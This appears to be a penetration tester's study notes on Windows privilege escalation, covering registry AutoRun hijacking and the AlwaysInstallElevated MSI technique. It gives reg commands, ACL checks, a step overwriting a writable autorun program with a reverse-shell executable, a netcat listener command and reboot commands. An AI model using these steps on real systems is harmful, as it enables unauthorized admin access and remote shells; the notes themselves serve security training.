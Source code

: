 
#windows #registry #privesc 

# AutoRuns

Windows can be configured to run commands at startup, with elevated privileges.
These "AutoRuns" are configured in the Registry.

If you are able to write to an AutoRun executable, and are able to restart the system ( or wait for it to be restarted ) you may be able to escalate privileges. 

HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run : For all users
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run : For user logged in 

## Commands for registry


```cmd
===>  req query <KEY_PATH> /v <name_value> /s /f <pattern>

reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion" /v ProgramFilesDir
reg query "HKLM\SOFTWARE" /f "Windows" /s


===> reg add <KEY_PATH> /v <name_value> /t <data_type> /d <data> /f 

reg add "HKCU\Software\TestKey" /v TestValue /t REG_SZ /d "Ceci est une valeur" /f
reg add "HKLM\Software\TestKey" /v TestDWORD /t REG_DWORD /d 1 /f


===> reg delete <KEY_PATH> /v <name_value> /f

reg delete "HKCU\Software\TestKey" /v TestValue /f
reg delete "HKCU\Software\TestKey" /f


===> reg export <KEY_PATH> <Destination_Path> /y 

reg export "HKLM\SOFTWARE\TestKey" C:\Backup\TestKey.reg /y


===> reg import <.reg Path>

reg import C:\Backup\TestKey.reg



===> reg copy <SOURCE_PATH> <DESTINATION_PATH> /s /f 

reg copy "HKCU\Software\TestKey" "HKLM\Software\BackupKey" /s /f



```

#### Output WinPeas Applicationsinfo

```bash
[+] Autorun Applications(T1010)
    Folder: C:\Program Files\Autorun Program
    File: C:\Program Files\Autorun Program\program.exe
    FilePerms: Everyone [AllAccess]
    RegPath: HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run


```



## 1- Enumerate manually Autorun 

```cmd
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

 Result  
```cmd
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
SecurityHealth    REG_EXPAND_SZ    %windir%\system32\SecurityHealthSystray.exe
Mware User Process    REG_SZ    "C:\Program Files\VMware\VMware Tools\vmtoolsd.exe" -n vmusr
My Program    REG_SZ    "C:\Program Files\Autorun Program\program.exe"
```

Checks ACLs of Autorun executables 

```cmd
.\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```

```cmd
icacls "C:\Program Files\Autorun Program\program.exe"
```

```powershell
(Get-Acl "C:\Program Files\Autorun Program\program.exe").Access
```

Here program.exe run as user is logged 

## 2 - Copy payload executable to overwrite the program 

```cmd
copy /Y reverse.exe "C:\Program Files\Autorun Program\Program.exe"
```

## 3 - Set up another listener and restart Windows

```bash
sudo rlwrap nc -lvnp 53 
```

```cmd
shutdown /r /t 0
```

```powershell
Restart-Computer -ComputerName "PcName"
```

```cmd
wmic os where primary=true reboot
```

```cmd
taskkill /IM explorer.exe /F & shutdown /r /t 0
```

On Windows 10 , at least when the system restarts , it seems to run the command with the privileges of the user who was last logged in to avoid this causing issues.
ff
To avoid this causing issues we log out of the user accout and log as the admin account and restart 

# AlwaysInstallElevated

MSI files are packages files used to install appliications.
These files run with the permissions of the user trying to install them.

Windows allows for these installers to be run with elevated ( i.e admin ) privileges.
If this is the case , we can generate a malicious MSI file which contains a reverse shell.

The catch is that two Registry settings must be enabled for this to work.
The "AlwaysInstallElevated" Value must be set to 1 for both local machine:

HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

and the current user :

KHCU\SOFTWARE\Policies\Microsoft\Windows\Installer

If either of these are missing or disabled , the exploit will not work 